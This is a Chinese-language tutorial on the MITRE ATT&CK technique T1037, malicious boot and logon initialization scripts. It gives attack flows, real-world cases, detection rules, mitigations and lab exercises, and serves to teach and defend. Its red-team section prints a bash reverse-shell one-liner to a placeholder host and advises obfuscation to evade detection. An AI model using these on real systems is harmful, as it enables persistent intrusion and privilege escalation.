

# 引导或登录初始化脚本 (T1037)

## 一句话通俗理解

就像在公司的晨会流程里偷偷塞了一条"给我转100块"的指令——攻击者在系统启动或用户登录时自动执行的脚本中植入恶意代码，利用管理员登录时自动获得高权限。

## 难度等级

⭐⭐ **中级** - 需要了解目标系统的启动脚本机制和文件权限，但利用方式相对直接。

## 技术描述

每个操作系统都有一套"开机自动执行"的机制，用于在系统启动或用户登录时运行初始化脚本。这些脚本通常用于配置环境变量、挂载网络驱动器、启动后台服务等管理功能。

**通俗解释：**
就像公司在开工前有晨会流程，攻击者偷偷在晨会白板上加了一条自己的指令。由于晨会流程是自动执行的，没有人会逐行检查每一条指令——等管理员登录时，攻击者的命令就以管理员的身份自动运行了。

**技术原理：**
攻击者利用初始化脚本进行权限提升的核心原理：

1. **定位触发点**：找到系统级初始化脚本的位置（如 Windows 组策略登录脚本、Linux `/etc/profile.d/`）
2. **修改或创建脚本**：将恶意命令追加到现有脚本中，或创建新的脚本文件
3. **触发执行**：等待管理员登录或系统重启，恶意脚本以登录用户的权限执行
4. **提权完成**：如果登录用户是管理员，恶意代码就以管理员权限运行

**用途与影响：**
这种技术的危害在于"权限继承"——脚本本身没有权限，但执行它的用户有权限。攻击者不需要破解管理员密码，只需要找到一个在管理员登录时自动执行脚本的地方。一次成功的利用可以让攻击者从普通用户直接提升到域管理员级别。

## 子技术列表

**该技术共有 5 个子技术：**

| 子技术ID | 中文名称 | 通俗解释 |
|----------|----------|----------|
| T1037.001 | 登录脚本 (Windows) | 在 Windows 组策略或注册表中的登录脚本里塞入恶意命令 |
| T1037.002 | 登录钩子 (macOS) | 利用 macOS 的 Login Hook 机制在用户登录时执行恶意代码 |
| T1037.003 | 网络登录脚本 (Windows) | 修改域控制器上分发的网络登录脚本，影响所有域用户 |
| T1037.004 | RC 脚本 (Linux/macOS) | 在 Linux 的 `/etc/rc.local` 等启动脚本中植入恶意命令 |
| T1037.005 | 启动项 (macOS) | 在 macOS 的启动项目录中放置恶意程序 |

<details>
<summary><strong>展开查看各子技术详细说明</strong></summary>

各子技术详细说明请参阅独立文档：

- [T1037.001 - 登录脚本 (Windows)](./T1037/T1037.001-Logon Script (Windows)-登录脚本 (Windows).md) — 在 Windows 的"用户登录自动运行列表"里添加恶意命令。
- [T1037.002 - 登录钩子 (macOS)](./T1037/T1037.002-Login Hook (macOS)-登录钩子 (macOS).md) — 在 macOS 的"用户登录触发器"上挂载恶意程序。
- [T1037.003 - 网络登录脚本 (Windows)](./T1037/T1037.003-Network Logon Script (Windows)-网络登录脚本 (Windows).md) — 在公司网络的分发中心（域控制器）修改脚本，让所有员工都执行恶意命令。
- [T1037.004 - RC 脚本 (Linux/macOS)](./T1037/T1037.004-RC Scripts (Linux-macOS)-RC 脚本 (Linux-macOS).md) — 在 Linux 的"开机启动清单"（rc.local）里加一条恶意命令。
- [T1037.005 - 启动项 (macOS)](./T1037/T1037.005-Startup Item (macOS)-启动项 (macOS).md) — 在 macOS 的"开机自启列表"里添加恶意程序。

</details>

## 攻击流程



### Windows 组策略登录脚本提权流程

```
1. 获得普通域用户权限的初始访问
   ↓
2. 利用其他漏洞获取修改组策略的权限
   ↓
3. 修改域范围的 GPO 登录脚本，注入恶意 PowerShell 命令
   ↓
4. 等待管理员用户登录域内计算机
   ↓
5. 恶意脚本以登录用户的权限（可能是域管理员）执行
   ↓
6. 获得高权限的命令执行能力
```

### Linux 全局初始化脚本提权流程

```
1. 获得低权限 shell（如通过 Web 应用漏洞）
   ↓
2. 检查 /etc/profile.d/ 目录的写入权限
   ↓
3. 如果有写入权限，创建恶意脚本文件（如 /etc/profile.d/update.sh）
   ↓
4. 等待管理员通过 SSH 登录服务器
   ↓
5. 恶意脚本在管理员的 shell 环境中以管理员权限执行
   ↓
6. 窃取管理员凭据或反弹 root shell
```

## 真实案例

### 案例1：APT41 利用组策略登录脚本提权

- **时间**: 2019-2021年
- **目标**: 全球医疗、科技和电信行业
- **攻击组织**: APT41
- **手法**: APT41 在获得域管理员权限后，利用组策略管理控制台修改了域范围的登录脚本。攻击者在组策略对象（GPO）中嵌入了恶意命令，使得每次域用户登录时都会执行攻击者控制的脚本。由于组策略登录脚本以 SYSTEM 权限在后台执行，APT41 利用此机制在整个域范围内维持了 SYSTEM 权限的持久化访问。
- **影响**: 攻击者在目标网络中维持了长期的高权限访问，持续窃取敏感数据
- **参考链接**: [Google Cloud - APT41 Arisen From Dust](https://cloud.google.com/blog/topics/threat-intelligence/apt41-arisen-from-dust)

### 案例2：OceanLotus (APT32) 利用 Linux 初始化脚本提权

- **时间**: 2019-2020年
- **目标**: 东南亚政府机构和外资企业
- **攻击组织**: APT32 (OceanLotus)
- **手法**: APT32 在入侵 Linux 服务器后，通过修改 `/etc/profile.d/` 目录下的全局 shell 初始化脚本获得了 root 权限的执行能力。攻击者将恶意命令写入自定义脚本文件，当管理员通过 SSH 登录服务器时，恶意脚本在管理员的权限上下文中执行，使攻击者能够窃取管理员凭据或执行高权限操作。
- **影响**: 长期控制东南亚地区的政府服务器，窃取政治和经济情报
- **参考链接**: [MITRE ATT&CK - APT32](https://attack.mitre.org/groups/G0050/)

### 案例3：Volt Typhoon 利用初始化脚本在关键基础设施中持久化（2024年）

- **时间**: 2023-2024年
- **目标**: 美国关键基础设施（水利、能源、通信）
- **攻击组织**: Volt Typhoon
- **手法**: 中国国家背景的攻击组织 Volt Typhoon 在入侵美国关键基础设施网络后，利用"就地取材"（Living off the Land）技术，包括修改系统初始化脚本来维持持久访问。攻击者修改了 Windows 登录脚本和 Linux 启动脚本，确保在系统重启后仍能保持对目标网络的长期控制。CISA、NSA 和 FBI 联合发布的 advisory 指出，Volt Typhoon 在某些目标网络中潜伏了数年之久。
- **影响**: 长期潜伏在美国关键基础设施网络中，构成重大国家安全威胁
- **参考链接**: [CISA - Volt Typhoon Advisory (AA24-038A)](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a)

### 案例4：APT28 利用登录脚本进行企业网络持久化（2024年）

- **时间**: 2024年
- **目标**: 欧洲政府和国防组织
- **攻击组织**: APT28 (Fancy Bear)
- **手法**: APT28 (Fancy Bear) 在入侵企业网络后，修改了 Windows GPO 中的登录脚本，将恶意 PowerShell 命令注入到域用户的登录流程中。当目标用户（包括管理员）登录时，恶意脚本自动执行，用于窃取凭据和部署后门。攻击者利用这种方式在不安装传统恶意软件的情况下维持持久访问。
- **影响**: 持续窃取欧洲国防和政府机构的敏感信息
- **参考链接**: [MITRE ATT&CK - APT28](https://attack.mitre.org/groups/G0007/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **优先检查 `/etc/profile.d/` 写权限**
   在 Linux 系统中，`/etc/profile.d/` 目录是全局 shell 初始化脚本的位置。如果普通用户对此目录有写权限（这是常见的安全配置错误），可以直接创建恶意脚本实现提权。

2. **GPO 登录脚本是域级提权的利器**
   在 Windows 域环境中，如果能获得修改 GPO 的权限，组策略登录脚本是最有效的域级提权手段。一次修改可以影响所有域用户。

3. **使用反弹 shell 替代直接命令**
   在脚本中使用反弹 shell（如 `bash -i >& /dev/tcp/IP/PORT 0>&1`）而不是直接执行命令，可以获得交互式 shell 访问，更加灵活。

4. **混淆规避检测**
   使用 base64 编码、变量拼接、字符串反转等混淆技术来规避简单的字符串匹配检测。

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| PowerShell | 修改 Windows 组策略和注册表登录脚本 | Windows | 内置 |
| Group Policy Management Console | 管理域组策略对象 | Windows Server | 内置 |
| crontab/systemctl | Linux 定时任务和服务管理 | Linux | 内置 |
| dscl/launchctl | macOS 登录项管理 | macOS | 内置 |
| SharpGPOAbuse | 自动化 GPO 滥用工具 | Windows | [GitHub](https://github.com/FSecureLABS/SharpGPOAbuse) |

### 注意事项

- 修改 GPO 需要高权限，通常需要先通过其他方式获得域管理员或委派管理权限
- 在现代 Windows 系统中，修改系统级初始化脚本需要管理员权限
- macOS 10.15+ 已弃用 Login Hook，改用 Launch Daemon，需要适配不同版本
- 在脚本中使用反弹 shell 可能被网络出口防火墙拦截，考虑使用 HTTPS 隧道
- 实验必须在隔离的实验室环境中进行，禁止对真实系统操作

## 蓝队视角

### 检测要点

1. **GPO 登录脚本异常修改**
   - 日志来源：Windows 安全事件日志、AD 审计日志
   - 关注字段：事件 ID 5136（目录服务更改）、5137（对象创建）、5141（对象删除）
   - 异常特征：非授权账户在非工作时间修改默认域策略 GPO 中的登录脚本配置

2. **注册表登录脚本键值变更**
   - 日志来源：Sysmon 或 Windows 注册表审计日志
   - 关注字段：`HKEY_CURRENT_USER\Environment\UserInitMprLogonScript`
   - 异常特征：通常普通用户不需要设置此键值，出现即可疑

3. **Linux 初始化脚本修改**
   - 日志来源：文件完整性监控（FIM）、auditd
   - 关注字段：`/etc/profile.d/`、`/etc/bashrc`、`/etc/zshrc` 的 inode 变化
   - 异常特征：非 root 用户对这些文件的修改

### 监控建议

- 使用文件完整性监控（FIM）检测登录脚本目录的变更，设置实时告警
- 定期审计所有 GPO 登录脚本的内容，使用脚本签名验证完整性
- 监控从登录脚本启动的异常子进程，特别是反弹 shell、PowerShell 下载器等
- 对系统级初始化脚本设置 `immutable` 标志（Linux `chattr +i`），防止未授权修改
- 限制可修改 GPO 登录脚本的账户数量，实施审批流程

## 检测建议

### 网络层检测

**检测方法：** 监控从登录脚本出站的异常网络连接，特别是反弹 shell 和文件下载流量。

**具体规则/命令示例：**

```
# 检测从脚本解释器发起的出站连接
alert tcp $HOME_NET any -> $EXTERNAL_NET $SHELL_PORTS (msg:"Possible shell reverse connection from script process"; flow:to_server,established; content:"|2e 2e 2e|"; sid:1000001; rev:1;)
```

### 主机层检测

**检测方法：** 监控初始化脚本目录的文件变化和异常进程创建。

**Windows 事件ID：**
- 事件 ID 5136：目录服务更改（检测 GPO 修改）
- 事件 ID 4698：计划任务创建
- 事件 ID 1 (Sysmon)：异常进程创建

**Linux 日志：**
- 日志文件：`/var/log/audit/audit.log`
- 关键字段：`syscall=execve`、`auid!=0`

**具体命令示例：**
```bash
# 监控 /etc/profile.d/ 目录变化
sudo auditctl -w /etc/profile.d/ -p wa -k init_script_change

# 使用 inotifywait 实时监控
inotifywait -m -r /etc/profile.d/ /etc/bashrc
```

**用人话说：** 引导或登录初始化脚本是操作系统在启动或用户登录时自动执行的一系列脚本，包括Windows的组策略登录脚本、注册表Login Script键值、Linux的rc.local、/etc/profile、macOS的LoginHook和Launchd plist等。攻击者利用这些机制在系统启动或用户登录时自动执行恶意代码，获得持久化高权限访问。这就像在机场的自动播放系统中插入了一条恶意广播——每次有旅客进港（系统启动/用户登录），都会自动播放这条广播（执行恶意代码），而且听起来完全像正常的机场通知。

**检测方法：** 创建 Sigma 规则检测登录脚本修改。

**Sigma规则示例：**
```yaml
title: Init Script Modification via Non-Privileged User
status: experimental
description: Detects modification of system initialization scripts by non-root/non-SYSTEM users
logsource:
    category: file_change
    product: linux
detection:
    selection:
        TargetFilename:
            - '/etc/profile.d/*'
            - '/etc/bashrc'
            - '/etc/zshrc'
        User: '!root'
    condition: selection
level: high
tags:
    - attack.t1037
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 严格控制系统初始化脚本的权限

**具体实施步骤：**
1. 检查并收紧 `/etc/profile.d/`、`/etc/bashrc`、`/etc/rc.local` 等文件的权限，确保只有 root 可写
2. 在 Linux 上使用 `chattr +i` 设置不可变标志保护关键脚本
3. 限制可修改 GPO 登录脚本的 Active Directory 账户数量

**配置示例：**
```bash
# 保护 Linux 初始化脚本
chmod 755 /etc/profile.d/
chown root:root /etc/profile.d/
chattr +i /etc/profile.d/important_script.sh
```

### 优先级2：重要措施

**措施名称：** 实施变更管理和文件完整性监控

**具体实施步骤：**
1. 部署 FIM 工具（如 OSSEC、Tripwire、Wazuh）监控初始化脚本目录
2. 建立审批流程，所有 GPO 修改必须经过变更管理
3. 定期审查所有登录脚本的内容，使用脚本签名验证完整性

### 优先级3：建议措施

**措施名称：** 增强检测和响应能力

**具体实施步骤：**
1. 配置 Windows 审计策略记录所有 GPO 修改事件
2. 在域环境中部署 EDR 解决方案，监控异常的脚本执行行为
3. 对关键服务器实施应用程序控制（AppLocker/WDAC），阻止未授权脚本运行

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1018 | User Account Management | 适用 | 限制可修改 GPO 和登录脚本的用户账户数量 |
| M1022 | Restrict File and Directory Permissions | 适用 | 严格控制系统初始化脚本的文件权限 |
| M1033 | Limit Software Installation | 部分适用 | 通过应用程序控制限制未授权脚本执行 |
| M1029 | Remote Data Storage | 不适用 | - |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验环境准备

**推荐靶场/实验平台：**

| 平台名称 | 类型 | 难度 | 链接 |
|----------|------|------|------|
| Hack The Box | 虚拟靶场 | 中级 | https://www.hackthebox.com |
| TryHackMe | 虚拟靶场 | 初级 | https://tryhackme.com |

**所需工具：**
- Windows 虚拟机（Windows 10/11）用于实验1
- Linux 虚拟机（Ubuntu 22.04+）用于实验2
- PowerShell 和 Bash 基础知识

### 实验1：Windows 登录脚本注入（初级）

**实验目标：** 理解 Windows 注册表登录脚本机制，模拟攻击者设置恶意登录脚本。

**实验步骤：**
1. 以普通用户身份登录 Windows 虚拟机
2. 查看当前用户的登录脚本设置：`Get-ItemProperty -Path "HKCU:\Environment" -Name "UserInitMprLogonScript" -ErrorAction SilentlyContinue`
3. 设置一个测试登录脚本：`Set-ItemProperty -Path "HKCU:\Environment" -Name "UserInitMprLogonScript" -Value "C:\Scripts\logon.bat"`
4. 创建测试脚本文件
5. 注销并重新登录，检查日志文件

**预期结果：** 重新登录后，测试脚本自动执行，生成日志文件记录登录时间。

**学习要点：** 理解注册表登录脚本的执行时机和权限继承机制。

### 实验2：Linux 全局初始化脚本注入（初级）

**实验目标：** 理解 Linux shell 初始化脚本的工作原理和提权风险。

**实验步骤：**
1. 查看 `/etc/profile.d/` 目录的权限：`ls -la /etc/profile.d/`
2. 创建一个测试脚本：`sudo tee /etc/profile.d/test-init.sh << 'EOF'`
3. 设置执行权限：`sudo chmod +x /etc/profile.d/test-init.sh`
4. 新开一个 SSH 会话登录，检查日志

**预期结果：** 每次新登录时，测试脚本自动执行，记录登录时间。

**学习要点：** 理解 Linux shell 初始化脚本的执行机制和全局影响范围。

### 实验3：检测初始化脚本修改（中级）

**实验目标：** 学习如何监控和检测初始化脚本的未授权修改。

**实验步骤：**
1. 安装 inotify 工具：`sudo apt install inotify-tools`
2. 启动监控：`sudo inotifywait -m -r /etc/profile.d/`
3. 在另一个终端修改 `/etc/profile.d/` 下的文件
4. 观察监控输出，识别修改行为

**预期结果：** inotifywait 实时显示文件的修改、创建和删除事件。

**学习要点：** 掌握文件监控工具的使用方法，理解实时检测的原理。

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| 组策略对象 | Group Policy Object (GPO) | Windows 域中用于集中管理计算机和用户配置的"规章制度"集合 |
| 登录脚本 | Logon Script | 用户登录时自动执行的脚本，就像公司晨会时自动播放的欢迎词 |
| 初始化脚本 | Initialization Script | 系统启动或 shell 启动时自动执行的脚本，用于设置系统环境 |
| /etc/profile.d/ | - | Linux 系统中存放全局 shell 初始化脚本的目录，所有用户登录时都会执行这里面的脚本 |
| Login Hook | 登录钩子 | macOS 的登录触发器机制，可以在用户登录时自动运行指定程序 |
| 文件完整性监控 | File Integrity Monitoring (FIM) | 检测关键文件是否被修改的安全技术，像给重要文件装上"防盗报警器" |
| 就地取材 | Living Off the Land (LOL) | 攻击者使用系统自带的合法工具（如 PowerShell、Bash）进行攻击，不引入外部恶意软件 |
| rc.local | - | Linux 系统中传统的本地启动脚本，在系统初始化最后阶段以 root 权限执行 |

## 参考资料

### 官方文档

- [MITRE ATT&CK T1037 - Boot or Logon Initialization Scripts](https://attack.mitre.org/techniques/T1037/)
- [MITRE ATT&CK T1037.001 - Logon Script (Windows)](https://attack.mitre.org/techniques/T1037/001/)
- [MITRE ATT&CK T1037.003 - Network Logon Script](https://attack.mitre.org/techniques/T1037/003/)

### 安全报告

- [Google Cloud - APT41 Arisen From Dust](https://cloud.google.com/blog/topics/threat-intelligence/apt41-arisen-from-dust)
- [ESET - Turla Crru Entropy](https://www.welivesecurity.com/2020/08/06/turla-crru-entropy/)
- [CISA - Volt Typhoon Advisory (AA24-038A)](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a)

### 工具与资源

- [SharpGPOAbuse - GPO Abuse Tool](https://github.com/FSecureLABS/SharpGPOAbuse)
- [PowerView - PowerShell AD Enumeration](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

### 学习资料

- [CISA Boot or Logon Initialization Scripts (T1037)](https://www.cisa.gov/eviction-strategies-tool/info-attack/T1037)
- [Atomic Red Team - T1037 Tests](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1037)
